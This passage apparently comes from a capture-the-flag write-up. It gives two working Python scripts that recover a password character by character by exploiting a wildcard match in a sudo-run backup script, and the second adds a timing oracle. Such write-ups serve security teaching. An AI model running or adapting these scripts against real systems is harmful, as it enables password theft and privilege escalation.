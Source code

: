 Putting that together, I can write a Python script that will try all characters to find the password:

```

#!/usr/bin/env python3

import subprocess
import string

leaked_password = ""

while True:
    for c in string.printable[:-5]:
        if c in '*\\%':
            continue
        print(f"\r{leaked_password}{c}", flush=True, end="")
        result = subprocess.run(f"echo '{leaked_password}{c}*' | sudo /opt/scripts/mysql-backup.sh", stdout=subprocess.PIPE, stderr=subprocess.PIPE, shell=True)
        if "Password confirmed" in result.stdout.decode():
            leaked_password += c
            break
    else:
        break
print(f'\r{leaked_password}        ')

```

Running this takes 35-40 seconds, and finds the password:

![](/img/brute-password-1.gif)

I can make this faster. It hangs each time it finds the correct password because the process on success takes longer to run. What if I give `subprocess.run` a timeout? I’ll have to assume that any time it hits the timeout, it’s because the password was accepted:

```

#!/usr/bin/env python3

import subprocess
import string

leaked_password = ""

while True:
    for c in string.printable[:-5]:
        if c in '*\\%':
            continue
        print(f"\r{leaked_password}{c}", flush=True, end="")
        success = False
        try:
            result = subprocess.run(f"echo '{leaked_password}{c}*' | sudo /opt/scripts/mysql-backup.sh", stdout=subprocess.PIPE, stderr=subprocess.PIPE, shell=True, timeout=0.3)
        except subprocess.TimeoutExpired:
             success = True
        if success or "Password confirmed" in result.stdout.decode():
            leaked_password += c
            break
    else:
        break
print(f'\r{leaked_password}        ')

```
